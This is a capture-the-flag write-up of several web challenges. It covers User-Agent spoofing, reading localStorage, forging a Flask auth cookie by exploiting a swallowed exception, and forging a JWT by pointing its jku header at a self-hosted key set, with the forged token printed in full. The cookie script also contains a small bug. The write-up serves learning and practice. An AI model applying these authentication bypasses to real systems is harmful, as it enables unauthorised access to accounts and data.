 # Web Challenges

## Agent 95
> They've given you a number, and taken away your name~

You don't look like our agent!
We will only give our flag to our Agent 95! He is still running an old version of Windows...

This looks easy enough, we just need to spoof our user agent as a Windows 95 user

```bash
curl -A "Mozilla/4.0 (compatible; MSIE 5.5; Windows 95; BCD2000)" http://jh2i.com:50000/
```

Flag : ```flag{user_agents_undercover}```

## Localghost
> 75 | BooOooOooOOoo! This spooOoOooky client-side cooOoOode sure is scary! What spoOoOoOoky secrets does he have in stooOoOoOore??

Endless scrolling of ghosts, funny enough, the flag is just as the question mentioned, stored in localstorage LOL

Flag: ```JCTF{spoooooky_ghosts_in_storage}```

## Phphonebook
> 100 Ring ring! Need to look up a number? This phonebook has got you covered! But you will only get a flag if it is an emergency!

![](files/phphonebook.png)

Seeing the source it looks like it sends a posts request with form data number to the same page, we try a few numbers but it does nothing

Lets try sending an emergency instead using curl

```bash
curl --location --request POST 'http://jh2i.com:50002/phphonebook.php' \
--header 'Host: localhost:3000' \
--header 'Connection: close' \
--form 'number=999' \
--form 'emergency=1'
```

and we have the flag, Remember *you will only get a flag if it is an emergency!* ? Haha

Flag: ```flag{phon3_numb3r_3xtr4ct3d}```

## Official Business
> 125
Are you here on official business? Prove it.

When we first visit the site we see 

![](files/offbus1.png)

We try some combinations of user password but we always get 403 Forbidden
After checking some typical urls, we stumble upon the robots.txt file which dumps the entire source code, looks like its a python flask app

Important part of the code as follows: 
```python
def do_login(user, password, admin):

    cookie = {"user": user, "password": password, "admin": admin}
    cookie["digest"] = hashlib.sha512(
        app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
    ).hexdigest()

    response = make_response(redirect("/"))
    response.set_cookie("auth", binascii.hexlify(json.dumps(cookie).encode("utf8")))

    return response


@app.route("/login", methods=["POST"])
def login():

    user = request.form.get("user", "")
    password = request.form.get("password", "")

    if (
        user != "hacker"
        or hashlib.sha512(bytes(password, "ascii")).digest()
        != b"hackshackshackshackshackshackshackshackshackshackshackshackshack"
    ):
        return abort(403)
    return do_login(user, password, True)
```

The login post handler checks if the user is `hacker` and password is `hackshackshackshackshackshackshackshackshackshackshackshackshack`, however, the digest will always churn out a string in hex and the if loop will always be true and return a 403. The else is supposed to call the `do_login` method
which basically sets an auth cookie to remember authenticated users.

We do not know `app.secret_key` but is this a problem?

```python
@app.route("/")
def index():

    ok, cookie = load_cookie()
    if not ok:
        return abort(403)

    return render_template(
        "index.html",
        user=cookie.get("user", None),
        admin=cookie.get("admin", None),
        flag=FLAG,
    )

```
The block loads the cookie and returns the flag if load_cookie() returns True for ok.

```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")
    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")

            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie

```
Sadly, the `load_cookie` function simply checks if theres a cookie named `auth`, the return False will not be performed if an exception occurs and it will return `True` which causes our flag to be given to us 

Flag: ```flag{did_this_even_pass_code_review}```



Our code to generate our cookie :
```python
# Cookie generator
import hashlib
import binascii
import json

def gen_cookie():

    cookie = {"user": "hacker", "password": 'hackshackshackshackshackshackshackshackshackshackshackshackshack', "admin": True}
    cookie["digest"] = hashlib.sha512(
        bytes(json.dumps(cookie, sort_keys=True), "ascii")
    ).hexdigest()

    return binascii.hexlify(json.dumps(cookie).encode("utf8"))

print (do_login())
```

## Flag Jokes
> 200
Want to hear a joke? Want the flag? How about both? Why don't YOU tell me a joke!

Get it? Flag Jokes? Flag Jwks?

Login as any user, we get a JWT signed using the JWKS from the CTF server.
There is a jwt attack where you can manipulate and sign tampered requests by replacing the jku header with your own malicious hosted jwks.

This is easy to do using [jwt_tool](https://github.com/ticarpi/jwt_tool/blob/master/jwt_tool.py)

Our hosted jwks : 
```json
{
    "keys": [
        {
            "e": "AQAB",
            "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc",
            "kty": "RSA",
 	    "n":"g9jlwIpKcQtiIumDbrEsE2ifYBiCxgJ14bQRmmaMT3mJKuZX3Et9OVMcNGP7rGLSRgp32LvkYA6Mb_WGAwBVNNc2ZSI4oGuFRJWbHM9EvnoVe5kMk5Y5-CLSYjvYwlSt3VGlBmXdHCTTOH6gD6W-WmpB5uWYoHAwEFDav_SxdwXiM6v0-whoowNmqtwSDkGbjke6-kgnGF7U07cJPEhixjTR9Ta7He0VPfH2S2DX09LwLlNjKz0ru8l6O_tnzfvWoPJP4AaDsc9JDVLkHL3ilJ_-iIo-aDwhD7fbS7waIGnRXEizgBYV8k3T7aO3kw5Kf3sI3QWXC4kDKfvxkyJPYQ"
	}
    ]
}

```
Our tampered and self signed jwt token : 
```
eyJhbGciOiJSUzI1NiIsImtpZCI6InNxY0UxYTlnajlwMDh6Tk1SMU1XYkxMdnVhUHlVZUpFc0NsQmh5N1E0SmMiLCJqa3UiOiJodHRwczovL3F6LnNnL2p3a3MuanNvbiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.RiCNXouyCn7PLP64odTJ_fh3xosvrGdxX_weWGFzreCE3eNP2QNoO2tzVQ3MS1421EU4eFT5GkYfNY5SqhZ_FML1yhUAupKZEmbRfpTmafBqME6eTujdO7ksQdQJ9Hn2i6d7T8_5cPtv0lW8OO77Az_aRHhahR9VZ3JtyloDn5I4Xp-IxvqH6A2-labb9MDuKLX7DpVoZLM-wRAwN7SjaqX_j2VByFcpLzEjEIK9xxalqp3V6gUfD7J7u1lfGYOkmGlFu24RyBQHBwlsUtWXnmW-ddKlRs04QM7E31K1Y6qTRIOrnsWoyMvOkPWFAk79WLXuwsJDgd1KYwKACoVIYg
```

![](files/jwks.png)

Replace our `token` cookie with the jwt token we forged and refresh the page and we get the flag

Flag : ```flag{whoops_typo_shoulda_been_flag_jwks}```
